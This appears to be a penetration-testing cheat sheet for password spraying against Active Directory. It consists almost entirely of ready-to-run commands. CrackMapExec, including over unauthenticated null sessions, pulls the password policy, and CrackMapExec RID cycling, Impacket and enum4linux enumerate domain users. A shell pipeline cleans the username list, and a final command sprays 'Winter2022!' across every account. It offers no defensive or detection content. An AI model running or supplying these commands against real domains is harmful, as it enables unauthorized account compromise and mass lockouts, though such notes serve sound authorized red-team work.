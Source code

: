 ```yaml
---
description: Methodology for performing password spraying attacks against active directory
---
```


# Password Spraying Active Directory

### Obtain Password Policy

```bash
# Get Password Policy with CrackMapExec (Unauthenticated)
cme smb $dc -u '' -p ''

# Get Password Policy with CrackMapExec
crackmapexec smb $dc -u $username -p $password --pass-pol

# Get Password Policy with Net Accounts
net accounts
```

### Get List of Users

```bash
# Get List of Users with CrackMapExec via RID Cycling (Unauthenticated)
crackmapexec smb $dc -u '' -p '' --users
crackmapexec smb $dc -u '' -p '' --groups

# Get List of Users with CrackMapExec via RID Cycling
crackmapexec smb $dc -u $username -p $password --users

# Get List of Users with Impacket
GetADUsers.py $domain/$username:$password -all -dc-ip $dc

# Get List of Users with Enum4linux
enum4linux $dc -u $username -p $password -U

# Sort Usernames Obtained from Enum4Linux
cat usernameenum.txt | grep "user" | awk {'print $1'} | cut -d '[' -f 2 | cut -d ']' -f 1 | sort -u -f > UsernameList.txt
```

### Spraying

```bash
# Spray with CrackMapExec
crackmapexec smb $ip -u $username_list -p Winter2022! --continue-on-success
```

### References

{% embed url="https://wiki.porchetta.industries/smb-protocol/enumeration/enumerate-null-sessions" %}
